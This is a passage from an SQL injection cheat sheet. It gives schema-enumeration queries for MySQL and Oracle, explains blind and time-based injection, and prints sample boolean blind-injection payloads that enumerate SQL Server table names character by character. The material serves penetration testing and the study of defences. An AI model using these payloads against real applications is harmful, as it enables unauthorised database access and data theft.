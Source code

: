 ### Finding Database Structure in MySQL (M)

#### Getting User defined Tables

`SELECT table_name FROM information_schema.tables WHERE table_schema = 'databasename'`

#### Getting Column Names

`SELECT table_name, column_name FROM information_schema.columns WHERE table_name = 'tablename'`

### Finding Database Structure in Oracle (O)

#### Getting User defined Tables

`SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME'`

#### Getting Column Names

`SELECT * FROM all_col_comments WHERE TABLE_NAME = 'TABLE'`

## Blind SQL Injections

### About Blind SQL Injections

In a quite good production application generally **you can not see error responses on the page**, so you can not extract data through Union attacks or error based attacks. You have to do use Blind SQL Injections attacks to extract data. There are two kind of Blind Sql Injections.

**Normal Blind**, You can not see a response in the page, but you can still determine result of a query from response or HTTP status code   
**Totally Blind**, You can not see any difference in the output in any kind. This can be an injection a logging function or similar. Not so common, though.

In normal blinds you can use **if statements** or abuse **WHERE query in injection** (_generally easier_), in totally blinds you need to use some waiting functions and analyze response times. For this you can use **WAITFOR DELAY '0:0:10'** in SQL Server, BENCHMARK() and **sleep(10)** in MySQL, **pg\_sleep(10)** in PostgreSQL, and some PL/SQL tricks in ORACLE.

#### Real and a bit Complex Blind SQL Injection Attack Sample

This output taken from a real private Blind SQL Injection tool while exploiting SQL Server back ended application and enumerating table names. This requests done for first char of the first table name. SQL queries a bit more complex then requirement because of automation reasons. In we are trying to determine an ascii value of a char via binary search algorithm.

_**TRUE** and **FALSE** flags mark queries returned true or false._

`**TRUE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>78--   
  
**FALSE** : SELECT ID, Username, Email FROM [User]WHERE ID = 1 AND ISNULL(ASCII(SUBSTRING((SELECT TOP 1 name FROM sysObjects WHERE xtYpe=0x55 AND name NOT IN(SELECT TOP 0 name FROM sysObjects WHERE xtYpe=0x55)),1,1)),0)>103--   
  